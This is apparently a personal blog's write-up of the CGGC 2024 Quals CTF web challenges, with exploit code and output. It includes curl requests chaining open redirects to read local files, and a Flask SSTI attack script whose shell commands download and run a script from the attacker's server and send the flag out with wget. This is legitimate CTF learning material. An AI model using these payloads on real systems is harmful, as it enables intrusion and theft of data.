

+++
Title = "CGGC 2024 Quals Writeup"
Date = "2024-11-04 00:00:00 +0800 CST"
Description = ""
Tags = ["CTF", "Writeup"]
Categories = ["CTF"]
menu = "main"
aliases = ["/posts/ctf/cggc-2024-quals"]
+++

這次和 \_Viεcon\_、Andy Lu 和 [Darrin Lin](https://darrin.cc/) 組隊參加國科會舉辦的 [2024 CGGC 網路守護者挑戰賽](https://cggc.nchc.org.tw/)。


我花了四個多小時就把 Web 題解完，後面盯著 Autonomous Systems 相關的文件十幾個小時沒解開那題 Network Security。

## Preview Site 🔍

題目作者：[Vincent55](https://vincent55.tw/)\
[官方解](https://github.com/Vincent550102/My-CTF-Challenge/tree/main/cggc_2024_qual#preview-site-)



```python
from flask import Flask, request, redirect, render_template, session, url_for, flash
import urllib.request
import urllib.error
import urllib.parse
import os

app = Flask(__name__)
app.secret_key = os.urandom(24)

users = {'guest': 'guest'}

def send_request(url, follow=True):
    try:
        response =  urllib.request.urlopen(url)
    except urllib.error.HTTPError as e:
        response = e
    redirect_url = response.geturl(
    if redirect_url != url and follow:
        return send_request(redirect_url, follow=False)
    return response.read().decode('utf-8')


@app.route('/login', methods=['GET', 'POST'])
def login():
    next_url = request.args.get('next', url_for('index'))
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        if users.get(username) == password:
            session['username'] = username
            flash('login success')
            return redirect(next_url)
        else:
            error = 'login failed'
            return render_template('login.html', error=error, next=next_url)
    return render_template('login.html', next=next_url)

@app.route('/logout')
def logout():
    session.pop('username', None)
    next_url = request.args.get('next', url_for('index'))
    return redirect(next_url)

@app.route('/fetch', methods=['GET', 'POST'])
def fetch():
    if 'username' not in session:
        return redirect(url_for('login'))

    if request.method == 'POST':
        url = request.form.get('url')
        if not url:
            flash('Please provide a URL.')
            return render_template('fetch.html')
        try:
            if not url.startswith(os.getenv("DOMAIN", "http://previewsite/")):
                raise ValueError('badhacker')
            resp = send_request(url)
            return render_template('fetch.html', content=resp)
        except Exception as e:
            error = f'error：{e}'
            return render_template('fetch.html', error=error)
    return render_template('fetch.html')

@app.route('/')
def index():
    username = session.get('username')
    return render_template('index.html', username=username)
```



登入後可以提供一個 URI 給 Admin Bot 去 Fetch，但 URI 必須以 `http://previewsite/` 開頭，並且只會跟著 Redirect 一次。

在 `/logout` 有一個 `next` 參數，可以用來 Redirect 到任意網址，剛好 `requests` 看得懂 `file://` Protocol，這裡可以用來 Redirect 到 `file:///flag`。

```bash
curl 'http://10.99.66.5:10002/fetch' \
  -H 'Cookie: session=<Guest 的 Session>' \
  --data-raw 'url=http://previewsite/logout?next=file:///flag'

<h3>Result:</h3>
<pre><code>CGGC{open_redirect_to_your_local_file_2893hrgiubf3wq1}
</code></pre>
```

## proxy

題目作者：[Chumy](https://blog.chummydns.com/)\
[原始碼](https://github.com/Jimmy01240397/My-CTF-Challenges/tree/master/cggc-2024/proxy)

> Access <http://secretweb/flag> to get flag.

⚠️ Unintended Solution



```php
<?php

function proxy($service) {
    // $service = "switchrange";
    // $service = "previewsite";
    // $service = "越獄";
    $requestUri = $_SERVER['REQUEST_URI'];
    $parsedUrl = parse_url($requestUri);

    $port = 80;
    if (isset($_GET['port'])) {
        $port = (int)$_GET['port'];
    } else if ($_COOKIE["port"]) {
        $port = (int)$_COOKIE['port'];
    }
    setcookie("service", $service);
    setcookie("port", $port);
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
    $filter = '!$%^&*()=+[]{}|;\'",<>?_-/#:.\\@';
    $fixeddomain = trim(trim($service, $filter).".cggc.chummy.tw:".$port, $filter);
    $fixeddomain = idn_to_ascii($fixeddomain);
    $fixeddomain = preg_replace('/[^0-9a-zA-Z-.:_]/', '', $fixeddomain);
    curl_setopt($ch, CURLOPT_URL, 'http://'.$fixeddomain.$parsedUrl['path'].'?'.$_SERVER['QUERY_STRING']);
    curl_exec($ch);
    curl_close($ch);
}

if (!isset($_GET['service']) && !isset($_COOKIE["service"])) {
    highlight_file(__FILE__);
} else if (isset($_GET['service'])) {
    proxy($_GET['service']);
} else {
    proxy($_COOKIE["service"]);
}
```



這題是利用 PHP cURL Module 實作的 Proxy Server，我們要利用這個 Proxy Server 來存取 `http://secretweb/flag`，但輸入的 URI 會被過濾後串上 `".cggc.chummy.tw:".$port`。這裡最可疑的 Function 是 `idn_to_ascii()`，看起來是為了那個越獄的 IDN，~~PHP 這種老東西碰這種新穎的玩具九成會出問題~~。

Fuzzing 一陣子之後想起來上一題的 `/logout` 會吃 Query 然後 Redirect，這題剛好會傳 Query 加上設定上有開 cURL Redirect 就拿來用了。

```bash
curl 'http://10.99.66.6/logout?service=previewsite&port=10002&next=http%3A%2F%2Fsecretweb%2Fflag'
CGGC{1Dn_7O_45c11_5o_57R4n9E_11fc26f06c33e83f65ade64679dc0e58}
```

看 Flag 發現預期解確實與 `idn_to_ascii()` 有關。

## Breakjail Online 🛜

題目作者：[好駭客 Vincent55](https://vincent55.tw/)\
[官方解](https://github.com/Vincent550102/My-CTF-Challenge/tree/main/cggc_2024_qual#breakjail-online-)



```python
from flask import Flask, render_template_string, request

app = Flask(__name__)

@app.route('/', methods=['GET'])
def index():
    return "Hello, World! <br><a href='/SsTiMe'>SSTI me</a> :/"

@app.route('/SsTiMe', methods=['GET'])
def showip():
    # WOW! There has a SSTI in Flask!!!
    q = request.args.get('q', "'7'*7")

    # prevent smuggling bad payloads!
    request.args={}
    request.headers={}
    request.cookies={}
    request.data ={}
    request.query_string = b"#"+request.query_string

    if any([x in "._.|||" for x in q]) or len(q) > 88:
        return "Too long for me :/ my payload less than 73 chars"

    res = render_template_string(f"{{{{{q}}}}}",
        # TODO: just for debugging, remove this in production
        breakpoint=breakpoint,
        str=str
    )

    # oops, I just type 'res' not res qq
    return 'res=7777777'
```



⚠️ Unintended Solution

Flask SSTI 但用於取得 Global Object 的 `.` 和 `_` 都被 Filter 掉了，且 Payload 不可以超過 88 個字元。把題目在電腦上架起來和修好 `return` 後發現（\_Viεcon\_　剛好在解 Breakjail ⛓️ ~~不然我根本不知道這個 Function~~） `breakpoint()` 是與 Python Debugger 互動，並且有個 [Debugger Command](https://docs.python.org/3/library/pdb.html#debugger-commands) `commands \[bpnumber\]` 可以執行 Python Code，並且檢查 Log 會發現在 pdb 崩潰（沒有空間加上離開 pdb 的指令）之前確實有成功執行 Python Code。

Flag 的檔名後面有接上亂數，我們必須取得 Shell 才能順利取得 Flag。為了繞過取得 `os.system()` 的 `.`，我們需要執行兩串 Python Code，第一串先 `form os import *`，第二串就能直接用 `system()`。由於 `return` 被寫死成一個字串~~我又懶得研究這東西能不能 return 東西~~，我選擇在目標主機上直接寫個 Shell Script 然後開個 Web Server 來收 Flag。最後一個問題是 IP 和 Domain 都會用到 `.` 字元，把 IP 轉成 10 進位數字就可以繞過。

```typescript
import { sleep } from 'bun'

const target = 'http://10.99.66.7:10003/SsTiMe?q='
const decimalIP = '2130706433' // (*´艸`*)

async function main() {
  await sleep(100)
  const payload = [
    "breakpoint(commands=['from os import *','system(\\\"",
    '\\")\'])',
  ]
  const shells = [`wget -O /z ${decimalIP}`, 'chmod +x /z', '/z']

  for (const shell of shells) {
    const response = await fetch(
      target + encodeURI(payload[0] + shell + payload[1]).replace('+', '%2B')
      // 這個 `+` 坑了我好久
    )
    console.log(
      `Executed shell command: ${shell}. Response: ${response.status}`
    )
  }
  await sleep(1000)
  process.exit(0)
}

Bun.serve({
  port: 80,
  fetch(request: Request) {
    const url = new URL(request.url)
    console.log(`Got message: ${decodeURI(url.pathname)}`)
    return new Response(`#!/bin/sh\nwget ${decimalIP}/$(cat /flag*)`)
  },
})

main()
```

```bash
sudo bun index.ts
Got message: /
# 目標跟收 Flag 的機器要攻擊腳本
Executed shell command: wget -O /z 2130706433. Response: 500
Executed shell command: chmod +x /z. Response: 500
Got message: /CGGC{breakpoint_is_a_biiiig_gadget_oj237rpwd3i2}
# 出了點問題，收 Flag 機器沒辦法連上 VPN，這是用 VPN 內的機器打，VPN 外的機器收 Flag
Executed shell command: /z. Response: 500
```

由於我們沒有下指令離開 pdb，pdb 發現沒指令了會崩潰，導致收到的 HTTP Reponse Code 是 500。

這組 Payload 的 Prefix 50 字元，Suffix 6 字元，理論上能縮短成：

```bash
# 對於每一個 Shell Script 要用到的字元
echo c\\>>z
# End
chmod +x z
./z
```

用這個方法可以達到 67 個字元。

First Blood 🩸

預期解是用 `request.query_string` 放 Payload 來繞過 Filter，並且與傳統 SSIT 一樣用 `''.__class__`　方式取得 Global Object 並 RCE。

## 後記


我們（又）在比賽前期衝到第一名，後面大神們開打排名慢慢掉下來，一題都解不開了。
